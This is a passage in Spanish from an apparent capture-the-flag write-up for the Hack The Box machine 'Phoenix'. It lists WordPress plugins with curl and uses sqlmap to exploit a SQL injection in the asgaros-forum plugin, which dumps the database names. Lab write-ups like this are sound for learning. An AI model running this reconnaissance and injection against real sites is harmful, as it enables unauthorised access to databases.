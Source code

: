 En el código fuente se leakean varios plugins instalados

```null
curl -s -X GET https://phoenix.htb/ -k | grep "/wp-content/plugins" | grep -oP "'.*?'" | grep wp
'https://phoenix.htb/wp-content/plugins/pie-register/assets/css/pie_notice.css?ver=3.7.2.6'
'https://phoenix.htb/wp-content/plugins/timeline-event-history/includes/gutenberg/dist/blocks.style.build.css'
'https://phoenix.htb/wp-content/plugins/accordion-slider-gallery/assets/css/accordion-slider.css?ver=1.4'
'https://phoenix.htb/wp-content/plugins/asgaros-forum/libs/fontawesome/css/all.min.css?ver=1.15.12'
'https://phoenix.htb/wp-content/plugins/asgaros-forum/libs/fontawesome/css/v4-shims.min.css?ver=1.15.12'
'https://phoenix.htb/wp-content/plugins/asgaros-forum/skin/widgets.css?ver=1.15.12'
'https://phoenix.htb/wp-content/plugins/photo-gallery-builder/assets/css/lightbox.min.css?ver=1.7'
'https://phoenix.htb/wp-content/plugins/photo-gallery-builder/assets/css/bootstrap-front.css?ver=1.7'
'https://phoenix.htb/wp-content/plugins/photo-gallery-builder/assets/css/font-awesome-latest/css/fontawesome-all.min.css?ver=5.9'
'https://phoenix.htb/wp-content/plugins/pie-register/assets/css/dialog.css?ver=3.7.2.6'
'https://phoenix.htb/wp-content/plugins/timeline-event-history/assets/resources/fontawesome/css/fontawesome.min.css?ver=1.6'
'https://phoenix.htb/wp-content/plugins/pie-register/assets/js/dialog.js?ver=3.7.2.6'
'https://phoenix.htb/wp-content/plugins/accordion-slider-gallery/assets/js/accordion-slider-js.js?ver=1.4'
'https://phoenix.htb/wp-content/plugins/photo-gallery-builder/assets/js/lightbox.min.js?ver=1.7'
'https://phoenix.htb/wp-content/plugins/photo-gallery-builder/assets/js/packery.min.js?ver=1.7'
'https://phoenix.htb/wp-content/plugins/photo-gallery-builder/assets/js/isotope.pkgd.js?ver=1.7'
'https://phoenix.htb/wp-content/plugins/photo-gallery-builder/assets/js/imagesloaded.pkgd.min.js?ver=1.7'
```

El plugin ```asgaros-forum``` es vulnerable a una inyección SQL. En este [ártículo](https://wpscan.com/vulnerability/36cc5151-1d5e-4874-bcec-3b6326235db1) está detallado. Utilizo ```SQLMap``` para automatizar el proceso

```null
sqlmap --url 'https://phoenix.htb/forum/?subscribe_topic=1%20' --batch --dbs
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.7.2#stable}
|_ -| . [.]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 07:26:08 /2023-04-04/

available databases [2]:
[*] information_schema
[*] wordpress
```
